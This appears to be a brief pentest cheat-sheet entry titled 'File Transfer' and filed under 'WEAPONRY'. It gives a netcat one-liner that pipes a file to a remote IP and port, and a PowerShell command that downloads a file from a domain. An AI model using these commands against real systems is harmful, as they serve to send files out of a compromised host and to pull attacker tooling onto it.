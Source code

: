 ```yaml
---
title: File Transfer
date: 2020-11-26 01:31:38
category: WEAPONRY
---
```


# 文件传输

#### NC
``` bash
cat ${file}|nc ip port
```

#### Powershell
``` bash
wget -Uri http://domain/file -OutFile file
```